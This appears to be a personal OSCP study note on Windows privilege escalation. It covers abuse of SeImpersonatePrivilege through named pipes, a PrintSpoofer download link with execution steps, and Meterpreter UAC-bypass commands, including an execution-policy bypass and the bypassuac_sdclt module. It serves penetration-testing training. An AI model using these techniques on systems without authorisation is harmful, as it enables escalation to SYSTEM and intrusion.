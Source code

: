 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/i-windows-privilege-escalation/9-using-exploits/","updated":"2024-01-05T11:35:11.849+01:00"}
---
```


- Another way of performing privilege escalations is by exploiting vulnerabilities
- There are several kinds:
	- Application running by a higher privileged user
	- Windows Kernel
		- Can easily crash the system
	- Windows Privileges
		- Users with SeImpersonatePrivilege are assigned specific privileges by leveraging a token in a specific context, which can be abused.
		- This most often occurs when breaching the account of a service such as a web server, and not standard users, which may run as: _LocalService_, _LocalSystem_, _NetworkService_, or _ApplicationPoolIdentity_.
		- Others privileges that can be abused include: SeBackupPrivilege, SeAssignPrimaryToken, SeLoadDriver, and SeDebug.

### Named Pipes:
- A method for two unrelated processes to share and transfer data with each other.
- A named pipe server creates a named pipe to which a named pipe client can connect. The server and client does not have to reside on the same system.
- Once a client connects to a named pipe, the server can leverage _SeImpersonatePrivilege_ to impersonate this client after capturing the authentication from the connection process.
- To abuse it we need: A privileged process to connect to a controlled named pipe with _SeImpersonatePrivilege_.
- Example is "PrintSpoofer" which makes NT AUTHORITY connect to a controlled named pipe for command execution.
- Printspoofer: https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe

To exploit:
1. Make sure _SeImpersonatePrivilege_ is turned on for your current user with:
```
whoami /priv
```
2. Get the script from your computer.
3. Execute it and win!

Other exploits good to know:
https://jlajara.gitlab.io/Potatoes_Windows_Privesc

-------
### Meterpreter UAC bypass:
- Review the integrity level of current process:
```powershell
powershell -ep bypass
Import-Module NtObjectManager
Get-NtTokenIntegrityLevel
```
- In meterpreter:
```
use exploit/windows/local/bypassuac_sdclt
set session <id>
set LHOST <localhost>
run
```

